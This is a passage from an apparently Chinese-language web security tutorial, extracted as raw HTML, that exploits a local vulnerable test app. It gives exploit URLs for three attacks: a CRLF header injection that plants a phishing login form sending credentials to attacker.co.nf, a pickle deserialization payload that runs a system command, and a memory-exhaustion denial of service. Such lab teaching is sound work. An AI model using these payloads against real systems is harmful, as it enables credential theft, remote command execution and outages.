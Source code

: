 <br nodeIndex="554">http://127.0.0.1:65412/?charset=utf8</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="227"><span nodeIndex="555">EXPLOIT</span>:</p><blockquote nodeIndex="228"><pre nodeIndex="229"><code nodeIndex="556"><span nodeIndex="557">http://127.0.0.1:65412/?charset=utf8%0D%0AX-XSS-Protection:0%0D%0AContent-Length:388%0D%0A%0D%0A<!DOCTYPE html><html><head><title>Login</title></head><body style='font: 12px monospace'><form action="http://attacker.co.nf/i/log.php" onSubmit="alert('visit \'http://attacker.co.nf/i/log.txt\' to see your phished credentials')">Username:<br><input type="text" name="username"><br>Password:<br><input type="password" name="password"><input type="submit" value="Login"></form></body></html></span></code></pre></blockquote><h4 nodeIndex="558"><span nodeIndex="559">4.3.13 Component with Known Vulnerability (pickle)</span></h4><p class=" _RIL_KEEPER_CLASS_" nodeIndex="230"><span nodeIndex="560">使用含有已知漏洞的组件(pickle)</span>: pickle存在一个文件序列化漏洞。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="231"><span nodeIndex="561">漏洞地址</span>:    <br nodeIndex="562"><span nodeIndex="563">http://127.0.0.1:65412/?object=%28dp0%0AS%27admin%27%0Ap1%0A%28S%27admin%27%0Ap2%0AS%27admin%27%0Ap3%0Atp4%0AsS%27dricci%27%0Ap5%0A%28S%27dian%27%0Ap6%0AS%27ricci%27%0Ap7%0Atp8%0AsS%27amason%27%0Ap9%0A%28S%27anthony%27%0Ap10%0AS%27mason%27%0Ap11%0Atp12%0AsS%27svargas%27%0Ap13%0A%28S%27sandra%27%0Ap14%0AS%27vargas%27%0Ap15%0Atp16%0As.</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="232"><span nodeIndex="564">EXPLOIT</span>:</p><blockquote nodeIndex="233"><pre nodeIndex="234"><code nodeIndex="565"><span nodeIndex="566">http://127.0.0.1:65412/?object=cos%0Asystem%0A(S%27ping%20-c%205%20127.0.0.1%27%0AtR.%0A</span></code></pre></blockquote><blockquote nodeIndex="235"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="236">这里执行了ping -c 5 127.0.0.1 命令</p></blockquote><h4 nodeIndex="567"><span nodeIndex="568">4.3.14 Denial of Service (memory)</span></h4><p class=" _RIL_KEEPER_CLASS_" nodeIndex="237"><span nodeIndex="569">拒绝服务(memory)</span>: 资源消耗型的 DoS 攻击, 通过大量的恶意请求来访问有缺陷的服务, 从而造成服务器的系统资源消耗(如: CPU利用率100%、内存耗尽等) 增大, 来影响正常用户的使用。往往会造成正常用户的无法打开或无法访问等一系列问题。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="238"><span nodeIndex="570">漏洞地址</span>:    <br nodeIndex="571">http://127.0.0.1:65412/?size=32</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="239"><span nodeIndex="572">EXPLOIT</span>:</p><blockquote nodeIndex="240"><pre nodeIndex="241"><code nodeIndex="573"><span nodeIndex="574">http://127.0.0.1:65412/?size=9999999</span></code></pre></blockquote><h2 nodeIndex="242">5